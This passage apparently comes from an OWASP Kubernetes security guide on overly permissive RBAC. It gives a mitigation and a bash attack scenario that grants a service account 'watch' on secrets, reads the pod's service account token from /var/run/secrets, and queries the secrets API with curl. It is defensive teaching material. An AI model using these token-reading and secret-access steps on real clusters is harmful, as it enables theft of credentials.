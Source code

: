 ### How to Prevent

Only grant `WATCH` permission if you are also allowing that account to `GET` and
`LIST` all of that resource  

![Overly Permissive RBAC -
Mitigations](../../../assets/images/K03-2022-mitigation.gif)

### Example Attack Scenarios

```bash


# tested on
# minikube version: v1.32.0 (commit: 8220a6eb95f0a4d75f7f2d7b14cef975f050512d)
# kubectl version: Client Version: v1.28.4, Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3, Server Version: v1.28.3

# export names
export serviceName=watch-sa
export podName=my-watch-pod
export roleName=role-watch-secret
export roleBindingName=rolebinding-watch-secrets-default-ns

# create list-sa service account
kubectl create serviceaccount $serviceName

# create RBAC rules and binding it
kubectl create role $roleName --verb=watch --resource=secrets
kubectl create rolebinding $roleBindingName --role=$roleName --serviceaccount=default:$serviceName

# Create a secret to get
kubectl create secret generic  abcd  --from-literal=secretPassword=verySecure

# create pod
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: $podName
spec:
  containers:
    - image: nginx
      name: nginx
  serviceAccountName: $serviceName
  automountServiceAccountToken: true
EOF


# enter in the pod
kubectl exec -it $podName bash

# (inside the pod) get sa token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# (inside the pod) try to retrieve the secret
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/secrets/abcd --insecure
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
```